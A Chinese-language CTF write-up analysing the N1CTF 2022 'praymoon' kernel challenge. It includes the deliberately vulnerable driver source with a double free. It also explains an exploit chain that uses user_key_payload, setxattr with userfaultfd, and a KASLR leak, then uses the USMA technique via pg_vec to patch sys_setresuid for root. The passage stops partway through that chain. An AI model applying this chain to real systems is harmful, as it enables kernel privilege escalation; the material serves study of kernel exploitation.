# 【pwn4kernel】Kernel USMA技术分析

## 1. 测试环境

**测试版本**：Linux-5.18.10 [内核镜像地址](https://github.com/BinRacer/pwn4kernel/blob/master/kernels/5.18.10/01/bzImage)

笔者测试的内核版本是 `Linux (none) 5.18.10 #1 SMP PREEMPT_DYNAMIC Fri Jan 23 13:45:14 CST 2026 x86_64 GNU/Linux`。

**编译选项**：开启`CONFIG_MEMCG`、`CONFIG_MEMCG_KMEM`、`CONFIG_SLAB_FREELIST_RANDOM`、`CONFIG_SLAB_FREELIST_HARDENED`、`CONFIG_HARDENED_USERCOPY`、`CONFIG_DEBUG_LIST`、`CONFIG_DEBUG_PLIST`、`CONFIG_STATIC_USERMODEHELPER`、`CONFIG_USERFAULTFD`、`CONFIG_SLAB_MERGE_DEFAULT`、`CONFIG_SYSVIPC`、`CONFIG_KEYS`、`CONFIG_STACKPROTECTOR`、`CONFIG_STACKPROTECTOR_STRONG`、`CONFIG_SLUB`、`CONFIG_SLUB_DEBUG`、`CONFIG_E1000`、`CONFIG_E1000E`选项。完整配置参考[.config](https://github.com/BinRacer/pwn4kernel/blob/master/kernels/5.18.10/01/.config)。

**保护机制**：KASLR/SMEP/SMAP/KPTI

**测试驱动程序**：本程序源自 **N1CTF2022 - praymoon** 内核挑战，其核心漏洞源于del_flag全局变量的初始化错误，导致DELETE_CHUNK命令可以连续两次释放同一块moon对象内存，形成典型的Double Free漏洞。利用流程首先通过ADD_CHUNK申请kmalloc-512大小的moon对象，然后触发第一次kfree(moon)释放操作，立即通过user_key_payload的内存分配抢占这个刚释放的内存空洞，由于SLUB分配器的LIFO特性，这次分配有很高概率重新占用被释放的moon内存区域。接着触发第二次kfree(moon)形成Double Free条件，此时通过setxattr系统调用配合userfaultfd技术，精确控制第二次释放后的内存分配时机，抢占这个双重释放的内存区域，成功构造出user_key_payload与setxattr临时分配内存的重叠状态，同时利用userfaultfd提供的用户空间页面故障处理机制，能够实时修改重叠内存的内容，例如人为扩大user_key_payload的datalen字段值，扩展其可控数据范围。在user_key_payload的数据长度被成功扩展后，通过KEYCTL_READ命令可以越界读取相邻内核内存区域，实现内核地址信息的泄露，为后续利用提供关键的地址信息。随后通过KEYCTL_REVOKE命令释放user_key_payload占用的内存，通过pgv_alloc分配pg_vec结构重新占据这个释放区域，同时恢复之前被userfaultfd挂起的setxattr内核线程，使其完成内存释放操作，接着再次运用setxattr+userfaultfd组合技术重新占据这个新释放的临时内存区域，构造出pg_vec与setxattr临时内存的二次重叠状态，利用这个重叠条件修改pg_vec[i].buffer指针，将其指向内核的**sys_setresuid函数地址，这属于USMA（User-Space-Mapping-Attack）技术，该技术通过将内核代码段映射到用户空间地址范围内，实现在用户空间直接对内核函数代码进行修改的能力。利用这种映射机制，在用户空间对**sys_setresuid函数的关键权限校验代码进行修改，移除其权限检查逻辑，最后调用setresuid(0, 0, 0)函数即可绕过正常的权限验证机制，实现权限提升并获取root权限的shell环境。

驱动源码如下：

```c
/**
 * Copyright (c) 2026 BinRacer <native.lab@outlook.com>
 *
 * This work is licensed under the terms of the GNU GPL, version 2 or later.
 **/
// code base on N1CTF 2022 praymoon
#include <linux/cdev.h>
#include <linux/device.h>
#include <linux/export.h>
#include <linux/fs.h>
#include <linux/gfp.h>
#include <linux/init.h>
#include <linux/kernel.h>
#include <linux/module.h>
#include <linux/printk.h>
#include <linux/ptrace.h>
#include <linux/sched.h>
#include <linux/slab.h>
#include <linux/uaccess.h>
#include <linux/version.h>

#define ADD_CHUNK 0x5555
#define DELETE_CHUNK 0x6666

static size_t add_flag = 1;
static size_t del_flag = 2;
static void *moon = NULL;

static unsigned int major;
static struct class *praymoon_class;
static struct cdev praymoon_cdev;

static int praymoon_open(struct inode *inode, struct file *filp)
{
	pr_info("[praymoon:] Device open.\n");
	return 0;
}

static int praymoon_release(struct inode *inode, struct file *filp)
{
	pr_info("[praymoon:] Device release.\n");
	return 0;
}

static long praymoon_ioctl(struct file *file, unsigned int cmd,
			   unsigned long arg)
{
	long ret = 0;
	if (cmd == ADD_CHUNK) {
		if (add_flag > 0) {
			add_flag--;
			moon = kmalloc(0x200, GFP_KERNEL | __GFP_ZERO);
			pr_info("[praymoon:] Add Success!\n");
		}
	} else if (cmd == DELETE_CHUNK) {
		if (!moon) {
			pr_info
			    ("[praymoon:] Your moon doesn't seem to exist.\n");
			ret = -EFAULT;
			goto out;
		}
		if (del_flag > 0) {
			del_flag--;
			kfree(moon);
			pr_info("[praymoon:] del Success!\n");
		}
	} else {
		pr_info("[praymoon:] Unknown ioctl cmd!\n");
		ret = -EINVAL;
	}
out:
	return ret;
}

struct file_operations praymoon_fops = {
	.owner = THIS_MODULE,
	.open = praymoon_open,
	.release = praymoon_release,
	.unlocked_ioctl = praymoon_ioctl,
};

static int __init init_praymoon(void)
{
	struct device *praymoon_device;
	int error;
	dev_t devt = 0;

	error = alloc_chrdev_region(&devt, 0, 1, "praymoon");
	if (error < 0) {
		pr_err("[praymoon:] Can't get major number!\n");
		return error;
	}
	major = MAJOR(devt);
	pr_info("[praymoon:] praymoon major number = %d.\n", major);

	praymoon_class = class_create(THIS_MODULE, "praymoon_class");
	if (IS_ERR(praymoon_class)) {
		pr_err("[praymoon:] Error creating praymoon class!\n");
		unregister_chrdev_region(MKDEV(major, 0), 1);
		return PTR_ERR(praymoon_class);
	}

	cdev_init(&praymoon_cdev, &praymoon_fops);
	praymoon_cdev.owner = THIS_MODULE;
	cdev_add(&praymoon_cdev, devt, 1);
	praymoon_device =
	    device_create(praymoon_class, NULL, devt, NULL, "praymoon");
	if (IS_ERR(praymoon_device)) {
		pr_err("[praymoon:] Error creating praymoon device!\n");
		class_destroy(praymoon_class);
		unregister_chrdev_region(devt, 1);
		return -1;
	}
	pr_info("[praymoon:] praymoon module loaded.\n");
	return 0;
}

static void __exit exit_praymoon(void)
{
	unregister_chrdev_region(MKDEV(major, 0), 1);
	device_destroy(praymoon_class, MKDEV(major, 0));
	cdev_del(&praymoon_cdev);
	class_destroy(praymoon_class);
	pr_info("[praymoon:] praymoon module unloaded.\n");
}

module_init(init_praymoon);
module_exit(exit_praymoon);
MODULE_AUTHOR("BinRacer");
MODULE_LICENSE("GPL v2");
MODULE_DESCRIPTION("Welcome to the pwn4kernel challenge!");
```

## 2. 漏洞机制

### 2-1. 驱动程序架构与内存管理机制

#### 2-1-1. 模块整体架构设计

praymoon驱动程序实现了一个极简的内存管理系统，其核心设计理念是通过两个引用计数变量控制单个全局内存对象的生命周期。该模块通过字符设备接口向用户空间暴露功能，采用基于ioctl的状态机模型，将内存管理简化为原子性的"添加"和"删除"操作。

驱动程序的架构采用分层设计，用户空间接口层通过`/dev/praymoon`字符设备提供`ADD_CHUNK`(0x5555)和`DELETE_CHUNK`(0x6666)两个ioctl命令，状态管理层通过`add_flag`(初始1)和`del_flag`(初始2)控制操作权限，内存管理层则由单一的`moon`指针管理512字节的内存块。这种设计缺乏必要的同步机制，存在潜在的竞态条件风险，生命周期管理层的引用计数控制也因逻辑缺陷而成为安全漏洞的根源。

在内存管理方面，驱动程序使用标准的`kmalloc/kfree`接口，每次分配固定大小的512字节内存块。这种全局单一对象模式虽然简化了内存管理，但引入了严重的安全隐患，特别是在释放后未清空指针的情况下，为后续的技术验证创造了条件。

#### 2-1-2. 核心数据结构与状态机

**全局状态变量**：

```c
static size_t add_flag = 1;  // 添加操作标志，初始为1
static size_t del_flag = 2;  // 删除操作标志，初始为2
static void *moon = NULL;    // 全局内存指针，初始为NULL
```

这三个全局变量构成了驱动程序的状态机基础，其中存在明显的不对称设计。`add_flag`的初始值为1，表示最多允许一次分配操作，而`del_flag`的初始值为2，表示最多允许两次释放操作。这种设计本身就暗示了内存管理的不一致性。

`moon`指针管理512字节的内存块，其生命周期由`add_flag`和`del_flag`共同控制。关键缺陷在于释放操作后未将指针置为NULL，形成了悬垂指针。这种设计错误为后续的内存状态异常创造了条件。

**状态转移的形式化描述**：
设系统状态为三元组$$S = (a, d, m)$$，其中：

- $$a$$: `add_flag`的当前值
- $$d$$: `del_flag`的当前值
- $$m$$: `moon`指针的值（NULL或有效地址）

初始状态为：$$S_0 = (1, 2, \text{NULL})$$

状态转移函数定义如下：

1. **ADD_CHUNK操作**（当$$a > 0$$时）：

    $$
    T_{\text{add}}(a, d, m) =
    \begin{cases}
    (a-1, d, \text{kmalloc-512}) & \text{if } (a > 0) \land (m = \text{NULL}) \\
    (a, d, m) & \text{otherwise (无变化)}
    \end{cases}
    $$

2. **DELETE_CHUNK操作**（当$$d > 0$$且$$m \neq \text{NULL}$$时）：

    $$
    T_{\text{del}}(a, d, m) =
    \begin{cases}
    (a, d-1, m) & \text{if } d > 0 \land m \neq \text{NULL} \\
    (a, d, m) & \text{otherwise (无变化)}
    \end{cases}
    $$

    **注意**：在实际执行中，会调用`kfree(m)`，但指针$$m$$的值保持不变，这是漏洞的关键。

**状态空间分析**：
系统状态空间有限但存在危险状态。安全状态定义为$$m = \text{NULL}$$，无论$$a,d$$取值。正常使用状态为$$m \neq \text{NULL}$$，且$$a = 0, d \geq 1$$。危险状态为$$m \neq \text{NULL}$$但$$d \leq 0$$，此时无法通过正常路径释放内存。漏洞状态为$$m$$指向已释放内存但$$m \neq \text{NULL}$$，这是Double Free漏洞的基础。

#### 2-1-3. 内存分配与释放流程

**内存分配流程**（`ADD_CHUNK`）：

```c
if (cmd == ADD_CHUNK) {
    if (add_flag > 0) {          // 检查是否还有分配权限
        add_flag--;               // 递减分配计数器
        moon = kmalloc(0x200, GFP_KERNEL | __GFP_ZERO);  // 分配512字节内存
        pr_info("[praymoon:] Add Success!\n");
    }
}
```

分配流程的关键限制包括只能分配一次内存（`add_flag`从1递减到0），如果`moon`已指向有效内存则拒绝再次分配，分配大小固定为512字节（kmalloc-512缓存）。

**内存释放流程**（`DELETE_CHUNK`）：

```c
if (cmd == DELETE_CHUNK) {
    if (!moon) {                    // 检查是否有内存可释放
        pr_info("[praymoon:] Your moon doesn't seem to exist.\n");
        ret = -EFAULT;
        goto out;
    }
    if (del_flag > 0) {             // 检查是否还有释放权限
        del_flag--;                 // 递减释放计数器
        kfree(moon);                // 释放内存
        // 漏洞点：此处缺少 moon = NULL;
        pr_info("[praymoon:] del Success!\n");
    }
}
```

释放流程中的漏洞点在于调用`kfree(moon)`后未将指针置为NULL，导致形成悬垂指针。结合`del_flag`初始值为2，允许最多执行两次释放操作，为Double Free漏洞创造了条件。

**Double Free漏洞触发序列**：

```
初始状态: add_flag=1, del_flag=2, moon=NULL
操作序列:
1. ADD_CHUNK:   分配内存 → add_flag=0, moon=0xffffXXXX, del_flag=2
2. DELETE_CHUNK: 第一次释放 → del_flag=1, 内存释放但moon未清空
3. DELETE_CHUNK: 第二次释放 → del_flag=0, 再次释放同一内存地址(Double Free)
```

**内存状态转移图**：


```mermaid
stateDiagram-v2
    [*] --> 初始状态: add_flag=1, del_flag=2, moon=NULL

    初始状态 --> 已分配状态: ADD_CHUNK
    已分配状态: add_flag=0, del_flag=2, moon=有效地址

    已分配状态 --> 悬垂指针状态: DELETE_CHUNK(第一次)
    悬垂指针状态: add_flag=0, del_flag=1, moon=悬垂指针

    悬垂指针状态 --> DoubleFree状态: DELETE_CHUNK(第二次)
    DoubleFree状态: add_flag=0, del_flag=0, moon=悬垂指针

    悬垂指针状态 --> 内存重用状态: 其他内核对象分配
    内存重用状态 --> DoubleFree状态: DELETE_CHUNK(第二次)

    note right of 悬垂指针状态
        关键漏洞状态:
        内存已释放但指针未清空
        允许再次释放(Double Free)
    end note
```

### 2-2. 漏洞成因与内存状态分析

#### 2-2-1. Double Free漏洞机制

praymoon驱动程序的核心安全缺陷源于内存释放后未将管理指针置空，结合引用计数器的设计缺陷，导致同一内存块可以被多次释放。这种Double Free漏洞为后续的内存状态操作提供了基础。

**漏洞代码分析**：

```c
if (del_flag > 0) {             // 条件检查：还有删除次数
    del_flag--;                 // 先递减计数器
    kfree(moon);                // 释放内存
    // 漏洞：此处缺少 moon = NULL;
    pr_info("[praymoon:] del Success!\n");
}
```

**缺陷的多维度分析**：

1. **执行顺序缺陷**：
   正确的内存释放流程应该是原子操作：检查→备份指针→清空指针→释放内存。但实际实现为：检查→递减计数器→释放内存→指针未清空。这使得在`kfree`之后，`moon`仍然指向已释放的内存，形成了悬垂指针。

2. **状态不一致**：
   `del_flag`表示"还可以删除多少次"，而`moon`表示"当前是否有分配的内存"。这两个状态在释放操作后失去同步：内存已被释放(`kfree`)，但指针未更新为NULL，逻辑上仍指示有分配的内存。这种状态不一致是Double Free漏洞能够被触发的前提。

3. **引用计数设计缺陷**：
   `add_flag`和`del_flag`的初始值不对称(1和2)，允许最多一次分配(`add_flag=1`)和最多两次释放(`del_flag=2`)。这种设计本身就暗示了Double Free的可能性，是驱动程序架构设计的根本缺陷。

4. **缺乏同步机制**：
   整个驱动没有使用任何锁机制，在多线程环境中，条件检查(`del_flag > 0 && moon`)和执行(`kfree`)之间存在时间窗口，可能被其他线程干扰。虽然praymoon利用是单线程操作，但这种设计缺陷反映了驱动程序实现的不完善。

**Double Free的触发条件**：
稳定触发Double Free漏洞需要满足特定的状态序列。首先成功执行一次`ADD_CHUNK`，使`moon`指向有效内存。然后执行`DELETE_CHUNK`，内存被释放但`moon`未清空，此时`del_flag=1`，`moon`为悬垂指针。最后再次执行`DELETE_CHUNK`，由于`del_flag=1>0`且`moon!=NULL`，通过检查，触发Double Free。

**漏洞的数学描述**：
设内存块的状态函数为$$S(t)$$，表示时间t时内存块的状态：

- $$S(t) = 0$$：未分配
- $$S(t) = 1$$：已分配且有效
- $$S(t) = 2$$：已释放

设指针状态函数为$$P(t)$$：

- $$P(t) = 0$$：指针为NULL
- $$P(t) = 1$$：指针指向有效内存
- $$P(t) = 2$$：指针指向已释放内存（悬垂指针）

正常的内存管理应保证：

$$
\forall t, P(t) = 1 \iff S(t) = 1
$$

但praymoon驱动在释放操作后存在：

$$
\exists t, P(t) = 1 \land S(t) = 2
$$

这是悬垂指针的数学定义。

Double Free的条件为：

$$
\exists t_1, t_2 (t_1 < t_2), S(t_1) = 2 \land P(t_2) = 1 \land \text{执行kfree}(t_2)
$$

即对已释放的内存再次执行释放操作。

#### 2-2-2. SLUB分配器的关键作用

SLUB分配器的特定行为特性使得Double Free漏洞可以被稳定利用。praymoon驱动分配的512字节内存块由kmalloc-512缓存管理，其行为特性对后续的技术操作至关重要。

**kmalloc-512缓存特性**：
praymoon驱动分配的512字节内存块属于kmalloc-512缓存，该缓存具有特定的行为特性。对象大小固定为512字节，按照硬件缓存行对齐，分配策略使用每CPU缓存（kmem_cache_cpu）提高性能，空闲管理采用LIFO（后进先出）策略。对象被释放后添加到对应CPU缓存的freelist头部，下次分配时从同一CPU缓存的freelist头部取出，这种LIFO行为是内存重用可预测性的基础。

**每CPU缓存与LIFO行为**：
SLUB分配器的核心优化之一是每CPU缓存（kmem_cache_cpu），每个CPU都有自己独立的内存缓存，避免了多CPU之间的锁竞争。这一设计对利用有重要影响。当对象被释放时，它被放入当前CPU缓存的freelist头部。下次在同一CPU上分配时，从该CPU缓存的freelist头部取出最近释放的对象。这种LIFO行为是SLUB分配器的重要性能优化，也使得最近释放的对象在短时间内被重新分配的概率很高。

通过`sched_setaffinity`系统调用将进程绑定到特定CPU核心，可以确保所有的分配和释放操作都在同一个CPU缓存中进行，从而保证内存重用的可预测性。当每CPU缓存为空时，会从该CPU对应的slab页面中批量获取对象填充缓存；当每CPU缓存过满时，会将部分对象移回全局freelist。但在praymoon技术验证的短时间内，大部分操作都在每CPU缓存中进行，因此全局freelist的随机化设置对技术操作影响有限。

**安全配置的影响分析**：

1. **`CONFIG_SLAB_FREELIST_RANDOM`**：
   此配置主要影响slab页面内对象的初始顺序，即在slab页面首次被分配给一个CPU时，其中对象的freelist顺序是随机的。然而，在对象被释放到每CPU缓存后，后续的分配和释放顺序仍然遵循LIFO。因此，在短时间内连续分配和释放同一内存块的情况下，随机化效果被削弱。通过绑定特定CPU核心，技术操作仍然可以预测内存重用模式。

2. **`CONFIG_SLAB_FREELIST_HARDENED`**：
   此配置通过在每个freelist指针中添加随机化来防止freelist破坏。但是，praymoon技术操作不直接利用freelist元数据，而是依赖合法内存操作（正常释放和重新分配）以及内存重用。因此，只要LIFO行为不变，内存重用的概率仍然很高。

**内存重用模型**：
设目标内存块为$$M$$，在CPU $$C$$的本地缓存中，在时间$$t_0$$被释放。在时间$$t_1$$，同一CPU上有分配请求，获取$$M$$的概率为：

1. 如果$$M$$是最近释放的对象，并且位于每CPU缓存的freelist头部：
   $$P_{\text{reuse}} \approx 1$$

2. 即使考虑随机化，在绑定CPU的情况下，短时间内内存重用概率仍然很高：
   $$P_{\text{reuse}} \geq 0.8 \text{（经验值）}$$

**在praymoon技术操作中的优化**：

1. **CPU绑定策略**：

    ```c
    // 绑定进程到CPU 0
    cpu_set_t set;
    CPU_ZERO(&set);
    CPU_SET(0, &set);
    sched_setaffinity(0, sizeof(cpu_set_t), &set);
    ```

    这确保所有内存操作都在CPU 0的缓存中进行，提高内存重用的可预测性。

2. **时序控制优化**：
   在释放操作后立即执行分配操作，使用内存屏障确保操作顺序，避免其他线程在目标CPU上分配内存。这种精确的时序控制是技术操作成功的关键。

3. **内存压力控制**：
   预先分配大量对象，填满每CPU缓存，确保目标内存块不会被移出缓存，提高目标内存块在缓存中的"温度"。这种内存状态控制为后续操作创造了有利条件。

**Double Free后的内存状态**：
在开启安全配置的情况下，内存状态管理更复杂，但核心技术链仍然有效。首次释放时，内存块$$M$$进入CPU $$C$$的本地缓存freelist头部。中间分配时，`user_key_payload`分配请求在同一CPU上，由于LIFO特性，很可能重用$$M$$。二次释放时，$$M$$再次进入同一CPU的freelist头部。后续分配时，`setxattr`缓冲区分配很可能重用同一内存块，形成内存重叠条件。

**安全配置的实际影响**：
虽然`CONFIG_SLAB_FREELIST_RANDOM`和`CONFIG_SLAB_FREELIST_HARDENED`增加了技术操作的难度，但并未完全阻止praymoon类的技术操作，原因包括LIFO行为未改变、CPU绑定可预测、时序窗口利用以及不依赖freelist元数据。技术操作通过绑定CPU、控制时序、快速连续操作等策略，仍然可以保持较高的成功率。

**利用成功率的数学分析**：
设每CPU缓存中有$$N$$个空闲对象，在开启随机化的情况下，最近释放的对象位于freelist头部的概率为：

$$
P_{\text{head}} = \frac{1}{N}
$$

但在实际技术操作中，通过清空缓存、连续操作、避免干扰等策略可以提高成功率。清空缓存通过在操作前大量分配和释放对象来实现，确保目标CPU缓存处于可控状态。连续操作确保分配操作紧接在释放操作之后，减少其他分配的干扰。避免干扰在操作期间防止其他线程在目标CPU上分配内存。在实际测试中，即使开启安全配置，praymoon技术操作的成功率仍可较高。

**SLUB分配器状态机**：


```mermaid
stateDiagram-v2
    [*] --> 每CPU缓存空闲状态: 对象在每CPU缓存的freelist中

    每CPU缓存空闲状态 --> 已分配: 分配请求(从freelist头部取出)
    已分配 --> 使用中: 被内核对象使用
    使用中 --> 已释放: kfree操作
    已释放 --> 每CPU缓存空闲状态: 对象返回同一CPU缓存的freelist头部

    note right of 已释放
        关键特性:
        1. 每CPU缓存LIFO行为
        2. CPU绑定确保一致性
        3. 安全配置影响有限
    end note

    已分配 --> 全局freelist: 当每CPU缓存满时
    全局freelist --> 每CPU缓存空闲状态: 当每CPU缓存空时

    note left of 全局freelist
        受CONFIG_SLAB_FREELIST_RANDOM影响
        但praymoon技术操作通过绑定CPU
        和快速操作避免此路径
    end note
```

**技术操作的稳定性增强策略**：
包括多次尝试、概率优化、系统状态感知和错误恢复。如果一次操作失败，清理状态后重试，通过统计优化操作时机，监控系统内存压力选择最佳时机，在检测到异常时清理现场避免系统崩溃。这些策略提高了技术操作的可靠性和稳定性。

**结论**：
虽然`CONFIG_SLAB_FREELIST_RANDOM`和`CONFIG_SLAB_FREELIST_HARDENED`等安全配置增加了技术操作难度，但praymoon技术操作通过绑定CPU、控制时序、快速连续操作等策略，仍然可以保持较高的成功率。这反映了当前内核内存安全防护在面对复杂技术操作时的局限性，也为后续的安全加固提供了方向。

#### 2-2-3. 漏洞触发的时序条件

Double Free漏洞的触发需要精确的时序控制，以下是完整的触发序列分析：


```mermaid
sequenceDiagram
    participant 用户进程
    participant praymoon驱动
    participant SLUB分配器
    participant 其他内核对象

    Note over 用户进程,其他内核对象: 阶段1: 初始状态
    Note left of praymoon驱动: add_flag=1<br>del_flag=2<br>moon=NULL

    Note over 用户进程,其他内核对象: 阶段2: 内存分配
    用户进程->>praymoon驱动: ioctl(ADD_CHUNK)
    praymoon驱动->>praymoon驱动: 检查add_flag=1>0, moon=NULL
    praymoon驱动->>SLUB分配器: kmalloc(512, GFP_KERNEL)
    SLUB分配器-->>praymoon驱动: 返回内存地址A
    praymoon驱动->>praymoon驱动: moon=地址A, add_flag=0
    praymoon驱动-->>用户进程: 分配成功
    Note left of praymoon驱动: add_flag=0<br>del_flag=2<br>moon=地址A

    Note over 用户进程,其他内核对象: 阶段3: 第一次释放(创建悬垂指针)
    用户进程->>praymoon驱动: ioctl(DELETE_CHUNK)
    praymoon驱动->>praymoon驱动: 检查del_flag=2>0, moon=地址A≠NULL
    praymoon驱动->>SLUB分配器: kfree(地址A)
    SLUB分配器->>SLUB分配器: 内存地址A进入每CPU缓存freelist头部
    praymoon驱动->>praymoon驱动: del_flag=1
    Note over praymoon驱动: 关键漏洞: 未执行moon=NULL
    praymoon驱动-->>用户进程: 释放成功
    Note left of praymoon驱动: add_flag=0<br>del_flag=1<br>moon=地址A(悬垂指针)

    Note over 用户进程,其他内核对象: 阶段4: 内存被其他对象重用(技术操作关键)
    用户进程->>其他内核对象: 分配user_key_payload(512字节)
    其他内核对象->>SLUB分配器: 分配512字节内存
    SLUB分配器->>SLUB分配器: 从每CPU缓存freelist头部取内存
    SLUB分配器-->>其他内核对象: 返回地址A(最近释放)
    其他内核对象-->>用户进程: user_key_payload对象占用地址A

    Note over 用户进程,其他内核对象: 阶段5: Double Free触发
    用户进程->>praymoon驱动: ioctl(DELETE_CHUNK)
    praymoon驱动->>praymoon驱动: 检查del_flag=1>0, moon=地址A≠NULL
    praymoon驱动->>SLUB分配器: kfree(地址A)
    Note over SLUB分配器: Double Free检测点<br>地址A当前被user_key_payload占用
    SLUB分配器-->>内核: 可能触发内核崩溃或损坏
    praymoon驱动->>praymoon驱动: del_flag=0
    praymoon驱动-->>用户进程: 返回成功(但系统可能不稳定)
    Note left of praymoon驱动: add_flag=0<br>del_flag=0<br>moon=地址A(仍为悬垂指针)
```

**关键时序窗口**：
第一次释放后，必须尽快分配`user_key_payload`对象，利用SLUB的LIFO特性确保重用同一内存。`user_key_payload`分配后，必须立即触发第二次释放，形成Double Free。在Double Free发生时，`user_key_payload`对象必须仍在使用中，否则会导致SLUB分配器检测到异常。这些时序窗口的精确控制是技术操作成功的关键。

**技术操作的优化策略**：
将进程绑定到特定CPU核心，确保使用相同的每CPU缓存。通过大量分配消耗其他可用内存，提高目标内存重用概率。使用`nanosleep`或忙等待控制操作间隔，实现精确的时序控制。准备处理因Double Free检测导致的内核崩溃，实现错误恢复。这些优化策略提高了技术操作的可靠性和成功率。

**技术操作的数学描述**：
设目标内存块为$$M$$，其生命周期状态序列为：

1. $$t_0$$: $$M$$被praymoon分配，状态为`ALLOCATED_BY_praymoon`
2. $$t_1$$: $$M$$被praymoon释放，状态为`FREED`，但`moon`指针仍指向$$M$$
3. $$t_2$$: `user_key_payload`分配，重用$$M$$，状态为`ALLOCATED_BY_KEY`
4. $$t_3$$: praymoon再次释放$$M$$(通过悬垂指针)，状态为`DOUBLE_FREED`

在时间窗口$$\Delta t = t_2 - t_1$$内，必须确保$$\Delta t$$尽可能小，减少其他分配干扰的可能性。在$$t_2$$时刻，每CPU缓存freelist头部恰好是$$M$$。在$$t_3$$时刻，`user_key_payload`仍在使用$$M$$。这些条件的同时满足是技术操作成功的基础。

成功的概率为：

$$
P_{\text{success}} = P_{\text{LIFO}} \times P_{\text{timing}} \times P_{\text{no_interference}}
$$

其中：

- $$P_{\text{LIFO}}$$: SLUB的LIFO特性确保$$M$$在每CPU缓存freelist头部
- $$P_{\text{timing}}$$: 精确控制时序的能力
- $$P_{\text{no_interference}}$$: 无其他分配干扰的概率

### 2-3. 完整技术验证流程分析

#### 2-3-1. 技术验证阶段总览

基于praymoon驱动的Double Free漏洞，可以构建一个包含五个阶段的完整技术验证链。整个流程从漏洞触发开始，经过内存状态控制、信息泄露、权限提升等步骤，最终实现完整的技术验证目标。


```mermaid
graph TD
    A[阶段1: Double Free触发<br>与内存交错] --> B[阶段2: 信息泄露<br>与KASLR绕过]
    B --> C[阶段3: 二次内存重用<br>与指针重定向]
    C --> D[阶段4: USMA技术<br>内核代码修改]
    D --> E[阶段5: 权限提升验证]

    A --> F[关键技术: SLUB LIFO特性<br>userfaultfd控制]
    B --> G[关键技术: 地址泄露<br>KASLR绕过]
    C --> H[关键技术: 内存重叠<br>指针控制]
    D --> I[关键技术: 用户空间映射<br>代码修改]

    style A fill:#e1f5fe
    style B fill:#e8f5e8
    style C fill:#fff3e0
    style D fill:#fce4ec
    style E fill:#f1f8e9
```

每个阶段都有明确的技术目标和依赖关系，形成逻辑严密的完整链条。关键技术如SLUB LIFO特性、userfaultfd控制、地址泄露、内存重叠、USMA等在各个阶段发挥关键作用，前一个阶段的输出是后一个阶段的前提，整个流程呈现出渐进式、依赖式的技术特征。

#### 2-3-2. Double Free触发与内存交错

**技术目标**：
触发Double Free漏洞，并通过精心构造的内存分配序列，使`user_key_payload`对象与`setxattr`临时缓冲区重叠。然后利用`userfaultfd`在`copy_from_user`过程中挂起内核线程，修改重叠的`user_key_payload`对象的`datalen`字段，为后续信息泄露创造条件。

**实现步骤**：

1. **内存分配与首次释放**：
   调用`ADD_CHUNK`分配512字节内存，`moon`指针指向新分配的内存。调用`DELETE_CHUNK`释放内存，但`moon`指针未清空，形成悬垂指针。

2. **user_key_payload内存抢占**：
   立即调用`add_key`系统调用创建密钥，`user_key_payload`对象分配512字节内存。由于SLUB的LIFO特性，重用刚刚释放的`moon`内存区域。

3. **Double Free触发**：
   再次调用`DELETE_CHUNK`，通过悬垂指针`moon`再次释放内存，触发Double Free。此时，`user_key_payload`对象占用的内存被释放，但`user_key_payload`对象仍然指向该内存。

4. **setxattr内存交错**：
   调用`setxattr`系统调用，其临时缓冲区由于Double Free而重用刚刚释放的内存（即与`user_key_payload`重叠）。此时形成`user_key_payload`与`setxattr`缓冲区的内存重叠状态。

**关键技术**：
SLUB LIFO特性利用控制分配时机，确保内存重用。内存重叠构造通过Double Free创建`user_key_payload`与`setxattr`缓冲区的重叠。这些技术的组合使用实现了精确的内存状态控制。

**内存状态演变**：

```
时间线:
t0: moon分配 → 内存状态: [praymoon对象]
t1: moon释放 → 内存状态: 空闲(但moon仍指向)
t2: user_key_payload分配 → 内存状态: [user_key_payload]
t3: 再次释放(moon) → Double Free触发
t4: setxattr分配 → 内存状态: [setxattr缓冲区] 与 [user_key_payload]重叠
```

#### 2-3-3. 信息泄露与KASLR绕过

**技术目标**：
利用`setxattr+userfaultfd`技术修改`user_key_payload`对象的`datalen`字段，实现越界内存读取，泄露内核地址信息，计算内核基址，绕过KASLR保护。

**实现步骤**：

1. **user_key_payload结构分析**：
   `user_key_payload`是内核密钥子系统中的数据结构，包含以下关键字段：

    ```c
    struct user_key_payload {
        struct rcu_head rcu;        // RCU回调头
        unsigned short datalen;      // 数据长度
        char data[];                // 实际数据
    };
    ```

    `rcu`字段包含函数指针`user_free_payload_rcu`，指向内核代码段。`datalen`字段控制可读取的数据量，是信息泄露的关键控制点。

2. **datalen字段扩展**：
   通过`setxattr+userfaultfd`技术修改重叠的`user_key_payload`对象的`datalen`字段。具体技术细节在2-4节详细描述。

3. **内核地址泄露**：
   调用`KEYCTL_READ`命令读取密钥数据，由于`datalen`被扩展，读取操作会越界访问`user_key_payload`之后的内存。从越界数据中提取内核函数指针（如`igmp_gq_timer_expire`），这个指针指向内核代码段，包含KASLR随机化信息，是计算内核基址的基础。

4. **KASLR绕过计算**：
   假设泄露的函数指针为`leaked_addr`，已知该函数在内核镜像中的静态偏移为`static_offset`，则内核基址为`kernel_base = leaked_addr - static_offset`。获得内核基址后，可以计算任意内核符号的实际地址`target_addr = kernel_base + target_offset`，为后续的指针重定向提供准确的地址信息。

**关键技术**：
内存重叠利用通过重叠内存修改`user_key_payload`的`datalen`字段。越界读取扩展`datalen`实现可控的越界内存访问。地址计算从泄露的指针计算内核基址，绕过KASLR。这些技术的组合使用实现了内核地址信息的精确获取。

**地址泄露示意图**：

```
user_key_payload内存布局:
+-------------------+ 0x00
| struct rcu_head   | → 包含user_free_payload_rcu函数指针
+-------------------+ 0x10
| unsigned short    | → datalen字段(被修改为0x2000)
+-------------------+ 0x12
| char data[]       | → 实际数据区域
+-------------------+ 0x212
| 相邻内核内存      | → 通过扩展datalen可以读取此区域
+-------------------+ 0x2000
```

**KASLR绕过数学描述**：
设内核镜像加载的随机偏移为$$R$$，泄露的函数指针在内核镜像中的静态偏移为$$S$$，则：

$$
\text{leaked_addr} = \text{kernel_base} + S
$$

因此：

$$
\text{kernel_base} = \text{leaked_addr} - S
$$

$$
R = \text{kernel_base} - \text{static_kernel_base}
$$

其中$$\text{static_kernel_base}$$是未随机化时的内核基址（如0xffffffff81000000）。这个计算过程实现了KASLR的精确绕过。

#### 2-3-4. 二次内存重用与指针重定向

**技术目标**：
释放`user_key_payload`对象，通过`alloc_pg_vec`分配`pg_vec`数组重新占据该内存。然后再次利用`setxattr+userfaultfd`技术，修改`pg_vec`数组中的`buffer`指针，使其指向目标内核函数。

**实现步骤**：

1. **user_key_payload释放**：
